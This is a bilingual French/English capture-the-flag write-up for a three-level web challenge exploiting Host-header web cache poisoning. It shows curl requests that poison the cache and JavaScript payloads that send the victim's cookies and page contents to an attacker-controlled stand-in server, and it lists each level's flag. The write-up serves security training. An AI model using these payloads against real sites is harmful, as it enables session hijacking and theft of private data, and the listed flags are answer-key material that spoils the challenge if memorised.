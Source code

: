 # Nom du défi

## Write-up FR

### Niveau 1
Dans un premier temps, il faut se rendre compte que la page principale utilise l'entête HOST pour générer le lien du script `index.js`. Il est donc possible de modifier l'entête HOST pour modifier le contenu de la page générée.
```shell
❯ curl -X GET -H "Host: anything" http://host:port/?name=JakeRansom
[...]
        <div class="link">
            <a href="journal">Voir le journal du Dr. Proxy Jones</a>
        </div>

        <script src="http://anything/static/index.js"></script>
[...]
```

On remarque également la présence de l'entête X-Cache-Status: HIT ou MISS dans les réponses du serveur, indiquant la présence d'un système de cache.
```shell
❯ curl -X GET -I http://localhost:8000/\?name\=anothername
HTTP/1.1 200 OK
[...]
X-Cache-Status: MISS
```

En changeant l'entête HOST dans une requête, on voit que cet entête n'est pas utilisé dans la clé de cache. En effet, en refaisant la première requête sans modifier l'entête HOST, on obtient un HIT.
```shell
❯ curl -X GET -I http://localhost:8000/\?name\=JakeRansom
HTTP/1.1 200 OK
[...]
X-Cache-Status: HIT
```
On peut donc mettre en cache une page avec un HOST différent, et la page sera servie à tous les utilisateurs.

En mettant en cache une page avec un HOST pointant vers un serveur que l'on contrôle, lorsque le Dr. Proxy Jones visitera la page, son navigateur tentera de charger le script depuis notre serveur, et on pourra récupérer le flag dans son User-Agent. La description nous indique que le Dr. Proxy utilise le nom DrProxy ou Proxy, nous savons donc quel paramètre **name** (qui agit comme un cache buster) utiliser pour le cibler.


```shell
❯ curl -H "Host: monserveur.com" http://host:port/?name=DrProxy
[...]
        <div class="link">
            <a href="journal">Voir le journal du Dr. Proxy Jones</a>
        </div>

        <script src="http://monserveur.com/static/index.js"></script>
[...]
```

### Niveau 2
Ici, le but est de voler la session du Dr. Proxy Jones.

Il faut donc héberger sur notre serveur un script `index.js` qui exfiltre les cookies de la page.

Un script très simple peut être utilisé pour cela :
```javascript
fetch('https://monserveur.com/?cookies=' + document.cookie);
```

Pour éviter les problèmes de CORS, il faut bien penser à ajouter l'entête `Access-Control-Allow-Origin: *` dans la réponse de notre serveur.

## Niveau 3

Ici, il faut réussir à voler le contenu de la page journal du Dr. Proxy Jones, qui est protégée par un mot de passe à usage unique.

Pour cela, on peut utiliser la faille de cache poisoning sur deux pages différentes :

- La première redirige le Dr. Proxy Jones vers la page journal qui est dans son historique après avoir ouvert un onglet vers la seconde page. On peut héberger sur notre serveur le script `index.js` suivant :
```javascript
open("/?name=Proxy");
window.history.go(-1);
```

- La seconde page permet de récupérer le contenu de la première page (qui contient maintenant le flag) grâce à la propriété [opener](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener). Le script `index.js` hébergé sur notre serveur pour cela :
```javascript
fetch("https://monserveur.com?"+opener.document.body.innerText);
```
> Note : Il est possible de récupérer le contenu de la page mère seulement car les deux pages sont du même domaine.

## Write-up EN

### Level 1
First, we need to realize that the main page uses the HOST header to generate the link to the `index.js` script. It is therefore possible to modify the HOST header to change the content of the generated page.
```shell
❯ curl -X GET -H "Host: anything" http://host:port/?name=JakeRansom
[...]
        <div class="link">
            <a href="journal">Voir le journal du Dr. Proxy Jones</a>
        </div>

        <script src="http://anything/static/index.js"></script>
[...]
```

We also notice the presence of the X-Cache-Status: HIT or MISS header in the server's responses, indicating the presence of a cache system.
```shell
❯ curl -X GET -I http://localhost:8000/\?name\=anothername
HTTP/1.1 200 OK
[...]
X-Cache-Status: MISS
```

By changing the HOST header in a request, we see that this header is not used in the cache key. Indeed, by redoing the first request without modifying the HOST header, we get a HIT.

```shell
❯ curl -X GET -I http://localhost:8000/\?name\=JakeRansom
HTTP/1.1 200 OK
[...]
X-Cache-Status: HIT
```

We can therefore cache a page with a different HOST, and the page will be served to all users.

By caching a page with a HOST pointing to a server we control, when Dr. Proxy Jones visits the page, his browser will try to load the script from our server, and we will be able to retrieve the flag in his User-Agent. The description tells us that Dr. Proxy uses the name DrProxy or Proxy, so we know which **name** parameter (which acts as a cache buster) to use to target him.

```shell
❯ curl -X GET -H "Host: myserver.com" http://host:port/?name=DrProxy
[...]
        <div class="link">
            <a href="journal">Voir le journal du Dr. Proxy Jones</a>
        </div>

        <script src="http://myserver.com/static/index.js"></script>
[...]
```


### Level 2
Here, the goal is to steal Dr. Proxy Jones' session.

We need to host on our server a `index.js` script that exfiltrates the page's cookies.

A very simple script can be used for this:
```javascript
fetch('https://myserver.com/?cookies=' + document.cookie);
```

To avoid CORS problems, we must remember to add the `Access-Control-Allow-Origin: *` header to our server.

### Level 3

Here, we need to steal the content of Dr. Proxy Jones' journal page, which is protected by a one-time password.

To do this, we can use the cache poisoning flaw on two different pages:

- The first one redirects Dr. Proxy Jones to the journal page that is in his history after opening a tab to the second page. We can host on our server the `index.js` script:
```javascript
open("/?name=Proxy");
window.history.go(-1);
```

- The second page allows retrieving the content of the first page (which now contains the flag) thanks to the [opener](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener) property. The `index.js` script hosted on our server for this purpose:
```javascript
fetch("https://myserver.com?"+opener.document.body.innerText);
```
> Note: It is only possible to retrieve the content of the parent page because the two pages are of the same domain.

## Flag

Level 1 : `polycyber{Jones_1s_us1ng_a_we1rd_br0wser}`

Level 2 : `polycyber{Session_c0ok1es_sh0uld_be_http0nly}`

Level 3 : `polycyber{Luck7_h3_ch3ck3d_h1s_n0t3s_b3f0r3}`